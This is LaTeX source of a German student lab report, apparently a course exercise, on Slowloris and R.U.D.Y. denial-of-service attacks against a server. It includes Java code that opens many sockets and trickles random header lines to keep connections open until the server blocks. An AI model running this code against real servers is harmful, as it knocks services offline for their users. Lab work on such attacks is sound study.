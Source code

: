 \documentclass[a4paper,12pt,
headsepline,           %
oneside,               %
pointlessnumbers,      %
bibtotoc,              %
BCOR15mm               %
]{scrbook}
\begin{document}
\section*{Slowloris - Langsames Senden}
Die Aufgabe beschäftig sich damit, den Server wieder anzugreifen, so dass es zu einem Denial of Service kommt. Dies wird erziehlt
durch langsames Senden von mehreren Clients an den Server, so dass der Timeout immer genau ausgereizt wird und somit der Server blockiert wird.
Nachfolgend ist der Code zu sehen der verwendet wurde
\begin{lstlisting}
    public static void main(String[] args) throws InterruptedException, IOException {
        sockets = new ArrayList<>();

        for (int c=0; c<15; ++c) {
            openSocket();
        }

        while (true) {
            Thread.sleep(600);
            for (var socket : sockets) {
                sendLine(socket);
            }
        }
    }
    \dots

    private static void sendLine(Socket socket) throws IOException {
        var ostream = socket.getOutputStream();

        StringBuilder field = new StringBuilder();
        for (int c=0; c<8; ++c) {
            byte asciiVal = (byte) (ThreadLocalRandom.current().nextInt(46) + 'A');
            if (asciiVal > 'Z') {
                asciiVal = (byte) (asciiVal - 'A' - 26 + 'a');
            }
            field.append((char) asciiVal);
        }

        String line = "\r\nX-" + field.toString() + ": " + ThreadLocalRandom.current().nextInt(10000);
        System.out.print(line);

        ostream.write(line.getBytes());
    }
\end{lstlisting}

\section*{R.U.D.Y}
Diese Aufgabe beschäftigt sich damit, den Server durch einen R.U.D.Y. Angriff zu schwöchen. Der dafür benötigte Code ist 
identisch zu der Aufgabe 4, außer dass im Header keine GET Request angefragt wird, sondern ein Post. Dieser Angriff ist ebenfalls erfolgreich.

\section*{Fragen}
\end{document}
